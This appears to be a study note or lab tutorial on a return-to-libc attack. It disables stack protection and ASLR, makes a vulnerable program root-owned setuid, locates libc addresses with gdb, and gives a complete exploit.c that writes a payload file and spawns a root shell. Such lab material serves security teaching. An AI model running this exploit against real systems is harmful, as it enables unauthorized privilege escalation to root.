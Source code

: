 # Return-to-libc-Attack

### Introduction

- libc is an existing library required by all the c programs
- return-to-libc exploit looks for the memory address of **system()** and the string **"/bin/sh"**. It jumps to **system()** and uses that function call to spawn a shell
- Variant of buffer-overflow attack
- **It causes the vulnerable program to jump to some existing code, such as the system() function in the libc library, which is already loaded into a process’s memory space**
- It does not use a shell-code
- Non‐executable stack countermeasure, it does not need an executable stack

### The vulnerable program:

```c
// stack.c
#incldue<stdio.h>
#include<string.h>
int vul_func(char *str)
{
	char buffer[50];
	strcpy (buffer, str);
	return 1;
}

int main (int argc, char **argv)
{
	char str[240];
	FILE *badfile;
	
	badfile = fopen ("badfile", "r");
	fread(str, sizeof(char), 200, badfile);
	vul_func(str);
	
	printf("Returned Properly\n");
	return 1;
}
```

**The above program has a buffer overflow vulnerability.** It first reads an input of size 200 bytes from a file called “badfile” into a buffer of size 50, causing the overflow. The function fread() does not check boundaries, so buffer overflow will occur.

The GCC compiler implements a security mechanism called ”Stack Guard” to prevent buffer overflows. In the presence of this protection, buffer overflow will not work. We can disable this protection if you compile the program using the **-fno-stack-protector** switch.

```c
gcc -fno-stack-protector -z noexecstack -o stack stack.c 
```

Linux-based systems uses address space randomisation to randomise the starting address of heap and stack. This makes guessing the exact addresses difficult. So we will disable this feature using the following command:

```bash
sudo sysctl -w kernel.randomize_va_space=0
```

“Non executable stack” countermeasure is switched *on*, StackGuard protection is switched ***off*** and address randomisation is turned ***off***.

Root owned Set-UID program

```bash
sudo chown root stack
sudo chmod 4755 stack

>badfile
```

### **To find system()’s address**

- Debug the vulnerable program using gdb
- Using p (print) command, print address of system() and exit().

```bash
gdb stack 
(gdb) run 
(gdb) p system 
(gdb) p exit 
(gdb) quit
```

![Screenshot 2022-02-22 at 9.28.50 AM.png](Return-to-libc%20Attack%206847c5787a564f3fbb1c52c0989713d5/Screenshot_2022-02-22_at_9.28.50_AM.png)

From the above gdb commands, we can find out that the address for the system() function is `0xb7e5f430` , and the address for the exit() function is `0xb7e52fb0`

### **To find “/bin/sh” string address**

Export “MYSHELL” environment variable and execute the code.

`export MYSHELL="/bin/sh"`

We will use the address of this variable as an argument to system() call. The location of this variable in the memory can be found out easily using the following program:

```c
// envsh.c
#include <stdio.h>
int main(){
	char *shell = (char *)getenv("MYSHELL");
	
	if(shell){
		printf("Value: %s\n", shell);
		printf("Address: %x\n", (unsigned int)shell);
	}
	
	return 1;
}
```

```c
gcc envsh.c -o envsh
./envsh
```

![Screenshot 2022-02-22 at 9.32.27 AM.png](Return-to-libc%20Attack%206847c5787a564f3fbb1c52c0989713d5/Screenshot_2022-02-22_at_9.32.27_AM.png)

“/bin/sh” string address - `0xbffffe8c`

### **Argument for system()**

Arguments are accessed with respect to ebp. We need to know the offset value.

```c
gcc -fno-stack-protector -z noexecstack **-g** -o stack_dbg stack.c
gdb stack_dbg
(gdb) b vul_func
(gdb) run

(gdb) p &buffer # buffer address
(gdb) p $ebp    # ebp address
(gdb) p ebp_address - buffer_address # offset
(gdb) quit
```

![Screenshot 2022-02-22 at 10.09.12 AM.png](Return-to-libc%20Attack%206847c5787a564f3fbb1c52c0989713d5/Screenshot_2022-02-22_at_10.09.12_AM.png)

ebp+4 points to the first parameter of your function, here it refers to the return address of system()

### Exploit

Malicious code:

```c
// exploit.c
#include <stdio.h>
#include <string.h>
int main (int argc, char **argv)
{
        char buf[200];
        FILE *badfile;

        memset(buf, 0xaa, 200);

        *(long *) &buf[70] = 0xbffffe8c; // The address of "/bin/sh" -> ebp + 12
        *(long *) &buf[66] = 0xb7e52fb0; // The address of exit() -> ebp + 8
        *(long *) &buf[62] = 0xb7e5f430; // The address of system() -> ebp + 4

        badfile = fopen("./badfile", "w");
        fwrite(buf, sizeof(buf), 1, badfile);
        fclose(badfile);
}
```

```c
gcc exploit.c -o exploit
./exploit
./stack
```

![Screenshot 2022-02-22 at 10.11.45 AM.png](Return-to-libc%20Attack%206847c5787a564f3fbb1c52c0989713d5/Screenshot_2022-02-22_at_10.11.45_AM.png)

Gained root shell.

---
